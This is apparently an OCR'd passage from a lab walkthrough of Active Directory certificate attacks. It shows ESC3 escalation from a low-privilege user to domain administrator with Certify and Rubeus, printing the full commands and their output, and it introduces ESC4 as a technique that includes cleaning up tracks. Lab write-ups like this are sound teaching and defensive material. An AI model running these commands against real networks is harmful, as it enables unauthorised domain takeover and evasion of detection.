 ```bash
...enrollment agent certificate...
-----END CERTIFICATE-----
```

Step 2: Use agent certificate to request certificate for Domain Admin

```bash
Certify.exe request /ca:braavos.essos.local\ESSOS-CA /template:User /onbehalfof:ESSOS\administrator /enrollcert:agent.pfx /enrollcertpw:mimikatz

[*] Action: Request a Certificates on behalf of another user
[*] Current user context    : ESSOS\khal.drogo
[*] Template                : User
[*] On behalf of            : ESSOS\administrator
[*] Agent Certificate       : agent.pfx

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 10

[*] cert.pem                :
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA8Fj9BNQ3T4Uy8F0aGF9ZLQWxkT8F6PSyEzGCq5VJXpF8rTQ
...administrator certificate...
-----END CERTIFICATE-----
```

Step 3: Authenticate as administrator

```bash
Rubeus.exe asktgt /user:administrator /certificate:admin.pfx

[*] Action: Ask TGT
[*] Using PKINIT with etype rc4_hmac and subject: CN=administrator, CN=Users, DC=essos, DC=local
[+] TGT request successful!

  ServiceName              : krbtgt/essos.local
  ServiceRealm             : ESSOS.LOCAL
  UserName                 : administrator
  UserRealm                : ESSOS.LOCAL
  StartTime                : 1/3/2025 11:15:23 AM
  EndTime                  : 1/3/2025 9:15:23 PM
  RenewTill                : 1/10/2025 11:15:23 AM
  Flags                    : name_canonicalize, pre_authent, initial, renewable, forwardable
```

Perfect! We've escalated from `khal.drogo` to `administrator` using the ESC3 technique.

## ESC4: Vulnerable Certificate Template Access Control

ESC4 is one of my favorite techniques because it's sneaky. Instead of exploiting existing vulnerable templates, you modify a secure template to make it vulnerable, exploit it, then clean up your tracks.
